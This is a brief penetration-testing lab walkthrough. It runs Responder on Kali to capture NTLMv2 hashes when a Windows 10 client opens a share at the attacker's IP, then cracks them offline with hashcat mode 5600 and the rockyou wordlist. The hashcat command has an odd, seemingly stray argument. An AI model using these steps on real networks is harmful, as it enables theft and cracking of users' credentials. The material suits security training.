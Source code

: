 On Kali:

```
responder -I eth0 -dwv
```

On Windows 10 Client:

- Browse to file explorer
- type `\\<kali_ip>`

On Kali:

- Observe the hashes retrieved for the user.

Additional (Hashcat):

- Save hash to a file

`hashcat -m 5600 /home/kali/Desktop/Hashes rocket-hash-ntlm /usr/share/wordlists/rockyou.txt`